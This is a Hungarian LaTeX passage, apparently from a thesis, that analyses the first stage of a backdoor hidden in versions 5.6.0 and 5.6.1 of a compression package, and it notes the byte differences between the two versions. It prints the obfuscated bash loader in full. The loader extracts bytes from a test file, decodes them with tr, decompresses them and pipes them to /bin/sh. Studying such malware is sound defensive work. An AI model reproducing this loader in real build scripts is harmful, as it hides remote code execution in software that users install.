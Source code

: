 \documentclass[11pt]{article}
\begin{document}
\subsection{Első lépés}\label{subsec:first-stage}
Az \lstinline{5.6.0} és \lstinline{5.6.1}-es verziók közötti a különbség a kód blokkban levő \textbf{3-tól 7-ig sorig} húzódó rész, illetve pár érték a \textbf{15} sorban levő \lstinline{tr} parancs után.

\begin{lstlisting}[language=bash]
####Hello####
# kommentelt binaris ertekek
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +939)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31233|tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
####World####
\end{lstlisting}

Egyéb érdekesség a két verzió között bizonyos random bájt értékek kikommentelve a második sorban:
\begin{itemize}
    \item Az \lstinline{5.6.0} verzióban \lstinline{86 F9 5A F7 2E 68 6A BC}
    \item Az \lstinline{5.6.1} verzióban pedig ezek \lstinline{E5 55 89 B7 24 04 D8 17}
\end{itemize}

Nem lehet tudni ezek a bináris értékek mennyire fontosak, de több helyen is le voltak jegyezve, emiatt fontosnak tartottam, hogy bekerüljenek a dolgozatba is.
\end{document}

